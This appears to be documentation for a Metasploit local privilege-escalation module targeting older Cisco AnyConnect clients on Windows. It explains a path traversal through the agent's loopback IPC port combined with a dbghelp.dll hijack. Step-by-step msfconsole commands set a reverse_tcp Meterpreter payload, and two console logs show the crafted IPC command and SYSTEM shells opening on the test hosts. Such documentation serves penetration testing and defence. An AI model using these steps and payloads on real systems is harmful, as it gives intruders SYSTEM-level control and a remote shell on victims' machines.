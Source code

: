 ## Vulnerable Application

The installer component of Cisco AnyConnect Secure Mobility Client for Windows
prior to 4.8.02042 is vulnerable to path traversal and allows local attackers
to create/overwrite files in arbitrary locations as the SYSTEM user.

The attack consists of sending a specially crafted IPC request to the TCP port
62522 on the loopback device, which is exposed by the Cisco AnyConnect Secure
Mobility Agent service. This service will then launch the vulnerable installer
component (`vpndownloader`), which copies itself to an arbitrary location
before being executed as the SYSTEM user. Since `vpndownloader` is also
vulnerable to DLL hijacking, a specially crafted DLL (`dbghelp.dll`) is created
at the same location `vpndownloader` is copied to get code execution as the
SYSTEM user.

This exploit has been successfully tested against Cisco AnyConnect Secure
Mobility Client versions 4.5.04029, 4.5.05030 and 4.7.04056 on Windows 10
version 1909 (x64) and Windows 7 SP1 (x86).

AnyConnect Secure Mobility Client is not publicly available and only customers
with active contracts can download it. For this reason, download links have not
been provided.

## Install the Application

  1. Unzip the AnyConnect package
  2. Open the extracted folder
  3. Run `Setup.exe`
  4. Select `Core & VPN` only (no need to install the full package)
  5. Click `Install Selected`
  6. Confirm you want to install this specific version of Anyconnect (click `OK`)
  7. Accept the EULA (click `Accept`)
  8. `Installation complete` (click `OK`)... enjoy

  or just run the `anyconnect-win-x.y.zzzzz-core-vpn-predeploy-k9.msi` installer and follow the installation steps keeping the default options.

## Verification Steps

  1. Start msfconsole
  2. Get a session with non-administrative privileges
  3. Do: ```use exploit/windows/local/anyconnect_path_traversal_lpe```
  4. Do: ```set SESSION <SESSION>```
  5. Do: ```set payload windows/meterpreter/reverse_tcp```
  6. Do: ```set LHOST <LHOST>```
  7. Do: ```set LPORT <LPORT>```
  8. Do: ```check```
  9. Do: ```run```
  10. You should get a new session as the SYSTEM user

## Options
### ForceExploit

  Set this to `true` to override the `check` result during exploitation.

## Scenarios

### Windows 10 version 1909 (x64) with AnyConnect 4.7.4056

  ```
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set SESSION 8
  SESSION => 8
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LHOST 172.16.60.1
  LHOST => 172.16.60.1
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LPORT 4445
  LPORT => 4445
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set verbose true
  verbose => true
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > check

  [*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.7.4056.0.0 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > run

  [*] Started reverse TCP handler on 172.16.60.1:4445
  [*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.7.4056.0.0 appears to be vulnerable
  [*] "-ipc" argument needed
  [*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
  [*] IPC Command: "CAC-nc-install	-ipc=18201	C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vphU\vphU\vphU\vphU\../../../../vpndownloader.exe	-"
  [*] Connecting to the AnyConnect agent on 127.0.0.1:62522
  [*] Send the encoded IPC command (size = 270 bytes)
  [*] Sending stage (176195 bytes) to 172.16.60.202
  [*] Meterpreter session 9 opened (172.16.60.1:4445 -> 172.16.60.202:49765) at 2020-06-19 19:35:29 +0200
  [+] Deleted C:\ProgramData\Cisco\dbghelp.dll
  [+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
  [*] Shutdown the socket

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : DESKTOP-UUQE0B4
  OS              : Windows 10 (10.0 Build 18363).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### Windows 7 SP1 (x86) with AnyConnect 4.5.5030

  ```
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set SESSION 8
  SESSION => 8
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LHOST 172.16.60.1
  LHOST => 172.16.60.1
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LPORT 4445
  LPORT => 4445
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set verbose true
  verbose => true
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > check

  [*] Found vpndownloader.exe path: 'C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.5.5030.0.0 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > run

  [*] Started reverse TCP handler on 172.16.60.1:4445
  [*] Found vpndownloader.exe path: 'C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.5.5030.0.0 appears to be vulnerable
  [*] "-ipc" argument not needed
  [*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
  [*] IPC Command: "CAC-nc-install	C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vphU\vphU\vphU\vphU\../../../../vpndownloader.exe	-"
  [*] Connecting to the AnyConnect agent on 127.0.0.1:62522
  [*] Send the encoded IPC command (size = 247 bytes)
  [*] Sending stage (176195 bytes) to 172.16.60.134
  [*] Meterpreter session 10 opened (172.16.60.1:4445 -> 172.16.60.134:49218) at 2020-06-19 19:41:53 +0200
  [+] Deleted C:\ProgramData\Cisco\dbghelp.dll
  [+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
  [*] Shutdown the socket

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : WIN7-DEV
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
